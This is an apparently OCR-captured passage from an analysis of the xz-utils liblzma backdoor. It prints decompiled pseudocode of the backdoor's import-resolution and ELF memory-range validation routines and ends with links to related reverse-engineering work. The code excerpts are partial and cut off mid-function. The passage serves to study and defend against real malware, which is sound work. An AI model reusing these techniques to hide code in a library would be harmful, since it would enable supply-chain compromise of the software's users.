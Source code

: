 ```c
// .text.lzma_lz_encoder_memusaga:0000000000002540
Status __fastcall resolve_imports(uint64_t *dst_addr, elf_info_t *elf_info, elf_info_t *einfo, hfuncs_t *crypto_funcs)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS NUMPAD "+" TO EXPAND]

  size = 0LL;
  lzma_allocator = get_lzma_allocator();
  lzma_allocator->opaque = einfo;
  allocator = lzma_allocator;
  base = get_code_start_and_size(elf_info, &size);
  if ( base )
  {
    start = base;
    end = base + size;
    EVP_PKEY_new_raw_public_key = lzma_alloc(STR_EVP_PKEY_new_raw_public_key_, allocator);
    ...
    lzma_free(crypto_funcs->EVP_PKEY_new_raw_public_key, allocator, insn_size);
  }
  return Error;
}
```

## Memory validation

The backdoor uses the `validate_memory_range` function to check the validity of memory ranges. We see its use in `import_lookup` with the use of the `PF_R` flag, for example, to check for permission to read.

```c
Status __fastcall validate_memory_range(elf_info_t *elf_info, uint8_t *address, size_t size, uint32_t p_flags)
{
  return validate_memory_range_with_depth(elf_info, address, size, p_flags, 0LL);
}

Status __fastcall validate_memory_range_with_depth(
        elf_info_t *elf_info,
        uint8_t *addr,
        size_t size,
        uint32_t p_flags,
        uint64_t depth)
{
  // [COLLAPSED LOCAL DECLARATIONS. PRESS NUMPAD "+" TO EXPAND]

  ehdr = elf_info->ehdr;
_start:
  depth = (depth + 1);
  end = &addr[size];
  if ( !size )
    return Success;
  current = &addr[size];
  if ( addr <= end )
    current = addr;
  if ( current >= ehdr && depth != 0x3EA )
  {
    for ( i = 0LL; i < LOWORD(elf_info->e_phnum); ++i )
    {
      phdr = (elf_info->program_headers + 56 * i);
      if ( phdr->__p_type == PT_LOAD && (p_flags & phdr->p_flags) == p_flags )
      {
        v12 = &ehdr->e_ident[phdr->p_vaddr - elf_info->first_pt_load_vaddr];
        v13 = v12 + phdr->p_memsz;
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48
